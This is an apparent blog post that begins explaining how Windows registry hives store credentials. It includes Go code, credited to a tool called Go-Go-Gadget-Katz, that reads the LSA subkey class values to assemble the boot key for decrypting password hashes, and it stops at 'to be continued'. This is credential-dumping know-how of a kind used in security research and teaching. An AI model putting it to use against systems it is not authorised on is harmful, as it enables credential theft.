 +++
title = "WinRegistrySecrets"
date = "2025-03-20T13:50:08-07:00"
author = "Ceald"
authorTwitter = "" #do not include @
cover = ""
tags = ["windows", "new", "go"]
keywords = ["", ""]
description = ""
showFullContent = false
readingTime = false
hideComments = false
+++
## Intro
The windows registry is a system database that contains keys and values. Some things in the registry include; Windows credentials, cached passwords, usernames, and other credentials. In windows a group of keys is called a "hive" the hives that are the cool ones are; SAM, System, and Security.

## SYSTEM Hive

The most important registry hive is the "System" hive, in the key: `CurrentControlSet\Control\Lsa` there are the necessary components to craft the boot key which will be used to decrypt the rest of the registry database to get things like hashes for users. Here's some example code from "Go-Go-Gadget-Katz" for getting the boot key:
```go
key, err := registry.OpenKey(registry.LOCAL_MACHINE, 
		`SYSTEM\CurrentControlSet\Control\Lsa`, registry.READ|registry.QUERY_VALUE)
	if err != nil {
		return nil, fmt.Errorf("error opening LSA key: %v", err)
	}
	defer key.Close()

	// Read the values from the registry
	names := []string{"JD", "Skew1", "GBG", "Data"}
	for _, name := range names {
		subKey, err := registry.OpenKey(key, name, registry.READ|registry.QUERY_VALUE)
		if err != nil {
			return nil, fmt.Errorf("error opening subkey %s: %v", name, err)
		}
		defer subKey.Close()

		// Pre-allocate a large enough buffer for the class
		const maxClassSize = 1024 // Larger buffer size
		classBytes := make([]uint16, maxClassSize)
		classLen := uint32(maxClassSize)
		
		// Get the class string with all other parameters
		var subKeyCount, maxSubKeyLen, maxClassLen uint32
		var valueCount, maxValueNameLen, maxValueLen uint32
		var secDescLen uint32
		var lastWriteTime windows.Filetime

		err = windows.RegQueryInfoKey(
			windows.Handle(subKey),
			&classBytes[0],
			&classLen,
			nil,
			&subKeyCount,
			&maxSubKeyLen,
			&maxClassLen,
			&valueCount,
			&maxValueNameLen,
			&maxValueLen,
			&secDescLen,
			&lastWriteTime,
		)
```
In the code you are looping through the registry keys to get the boot key then you would decode it from UTF16 and hex to then unscramble the boot key.


to be continued......